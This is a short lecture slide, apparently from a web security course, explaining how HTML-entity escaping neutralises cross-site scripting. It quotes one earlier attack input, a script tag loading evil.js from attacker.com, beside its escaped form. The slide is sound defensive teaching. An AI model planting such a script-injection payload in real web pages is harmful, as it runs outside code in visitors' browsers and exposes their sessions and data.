

# Input Escaping or Sanitization
Sanitize untrusted data before outputting it to HTML.  Consider the HTML entities functions, which escapes  ‘special’ characters. For example, < becomes &lt;.

Our previous attack input,
<script src="http://attacker.com/evil.js"></script> becomes
&lt;script src=&quot;http://attacker.com/evil.js&quot;&gt;&lt;/script&gt;
which shows up as text in the browser.
Dawn Song